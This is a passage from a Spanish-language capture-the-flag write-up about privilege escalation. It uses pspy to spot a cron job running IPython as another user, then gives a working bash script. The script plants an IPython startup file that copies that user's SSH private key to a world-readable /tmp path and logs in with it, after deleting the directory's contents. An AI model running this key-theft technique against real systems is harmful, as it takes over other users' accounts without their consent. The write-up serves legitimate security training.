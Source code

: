 ```console
2022/08/16 01:45:01 CMD: UID=1001 PID=2302   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython <--- Important!
				\___ dan_smith UID 
2022/08/16 01:45:01 CMD: UID=1001 PID=2303   | /usr/bin/pkill ipython 
2022/08/16 01:45:01 CMD: UID=1001 PID=2304   | /usr/bin/python3 /usr/local/bin/ipython
...
```

> Repositorio de la herramienta [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
{: .prompt-info}

Interesante, vemos que el usuario `dan_smith` (lo reconocemos por su UID) usa `pkill` para cancelar la ejecución de **IPython**, luego con `cd` va al directorio que vimos anteriormente y con el simbolo lógico `&&` ejecuta ipython si el comando anterior fue exitoso (el cuál pasará ya que sabemos la existencia de esa ruta)

Entonces con todo lo visto anteriormente procedemos a explotar la vulnerabilidad:

> Concepto general (Vulnerable user)

```console
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/foo.py
```

Para la explotación, pruebas y por si cometemos errores, de manera rápida lo metemos en un archivo para usarlo como un script en `bash` e intentar copiar la `id_rsa` **Private key** de `dan_smith`, ya que se dirigirá a la ruta _/opt/scripts_review_ y allí ejecutara `ipython`, el cuál buscara el directorio de inicicialización `/startup` y ejecutará los scripts almacenados dentro `00-wh0am1.py` (stealing private key):

```bash
target_path='/opt/scripts_review'
temp_path='/tmp/.testing'

# create temp file 
if [ -d $temp_path ]; then
        rm -r $temp_path
fi

mkdir -m 777 $temp_path

# If target_path not is empty
if [ ! -z "$(ls -A $target_path)" ]; then
        rm -r $target_path/*
else
        mkdir -m 777 $target_path/profile_default
        mkdir -m 777 $target_path/profile_default/startup

        echo "__import__('os').system('cat ~/.ssh/id_rsa > /tmp/.testing/id_rsa; chmod o+rwx /tmp/.testing/id_rsa')" > $target_path/profile_default/startup/00-wh0am1.py
fi

# ssh connection
sleep 20 # wait until to receive key
ssh -i $temp_path/id_rsa dan_smith@localhost
```
